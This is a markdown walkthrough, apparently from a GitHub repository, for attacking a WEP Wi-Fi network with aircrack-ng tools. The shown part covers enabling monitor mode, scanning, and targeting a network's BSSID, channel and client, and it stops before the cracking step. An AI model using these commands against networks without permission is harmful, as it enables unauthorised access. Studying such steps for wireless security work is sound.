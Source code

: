 
# 🛡️ WEP Attack
## Time to perform the attack: 7 minutes

## ⚙️ Initial Setup

Let's go!

```bash
⚠️ sudo airmon-ng check kill
⚠️ sudo airmon-ng start wlan0
```

This will enables monitor mode on `wlan0mon`.

---

## 🔍 Network Scanning

At this point we want to scan the Network

```bash
⚠️ sudo airodump-ng wlan0mon
```
With this command we want to identify WEP Network and grab:

- `BSSID`
- `Channel`
- `Associated Clients` (STATION)

**REMEMBER**: Check what AP’s are active on frequency band 2,4Ghz (WEP was never designed for the 5Ghz band).

Also, all these info come together with all the other networks so it could be a little bit messy to keep analyzing things from here. 
**We need to focus just on what we need. (press CTRL+C to stop the current monitor).** 

So, let's run again airodump-ng targeting just the channel for the WEP Network.

---

## 🎯 2. Targeted Sniffing

```bash
⚠️ channel=3
⚠️ sudo airodump-ng -c ${channel} wlan0mon
```
Note: It can take a while before a station connects. 

Once you have it, grab **CHANNEL, BSSID, ESSID, and the CLIENT** we want to focus on in the attack step.

```bash
⚠️ channel=3
⚠️ bssid='F0:9F:C2:71:22:11'
⚠️ essid='wifi-old'
⚠️ client='3E:C8:44:0A:24:BA'
```
